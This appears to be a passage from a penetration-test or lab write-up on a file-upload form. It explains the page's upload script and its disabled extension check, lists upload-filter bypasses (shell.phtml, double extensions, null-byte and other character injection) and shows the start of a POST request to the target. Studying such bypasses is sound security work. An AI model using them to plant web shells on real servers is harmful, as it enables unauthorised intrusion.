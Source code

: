 - There does not seem to be any kind of client-side filtering, since the script does the following:
	1. It starts by getting the file attached by the user through an input field with the id `vpnConfigFile`. If no file is attached (`fileAttached` is undefined), it shows an alert asking the user to attach a file.
	2. It then creates a new `FormData` object and appends the file to it using the `append()` method.
	3. It creates an XMLHttpRequest object (`xhttp`) to handle the AJAX request.
	4. It defines an `onreadystatechange` event handler for the XMLHttpRequest object. This handler function checks if the request is complete and successful (readyState == 4 and status == 200). If it is, it processes the response.
	5. Inside the event handler, it retrieves the response text from the XMLHttpRequest object and splits it using the tilde (~) delimiter.
	6. It checks the status of the response. If the status is "uploaded", it shows an alert with the message "uploaded". Otherwise, it shows an alert with the message "error".
	7. Finally, it opens a POST request to the server (the URL is constructed dynamically) and sends the FormData object (`formData`) containing the file to be uploaded.
	8. There's a commented-out block of code that seems to be intended for checking the file extension (to ensure it's a ZIP file) but is currently inactive.

- The upload of the `.jsp` file fails because of the server-side filtering. The auditor tries various bypasses.

| **Command**                                                                                                                                | **Description**                              |
| ------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------- |
| **Client-Side Bypass**                                                                                                                     |                                              |
| `[CTRL+SHIFT+C]`                                                                                                                           | Toggle Page Inspector                        |
| **Blacklist Bypass**                                                                                                                       |                                              |
| `shell.phtml`                                                                                                                              | Uncommon Extension                           |
| `shell.pHp`                                                                                                                                | Case Manipulation                            |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions                       |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)                | List of ASP Extensions                       |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)                          | List of Web Extensions                       |
| **Whitelist Bypass**                                                                                                                       |                                              |
| `shell.jpg.php`                                                                                                                            | Double Extension                             |
| `shell.php.jpg`                                                                                                                            | Reverse Double Extension                     |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `'`, `…`                                                                                     | Character Injection - Before/After Extension |
| **Content/Type Bypass**                                                                                                                    |                                              |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)                             | List of Web Content-Types                    |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)                    | List of All Content-Types                    |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)                                                                   | List of File Signatures/Magic Bytes          |
- The auditor can bypass the extension filtering on the server side using the `'` on it.
```http
POST /upload?action=upload&callType=ajax HTTP/1.1
Host: contactpharmacorp.azurewebsites.net
Connection: close
Content-Length: 974
sec-ch-ua: "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAlkAEB5H0cUnLkgf
Accept: */*
Origin: https://contactpharmacorp.azurewebsites.net
Sec-Fetch-Site: same-origin
```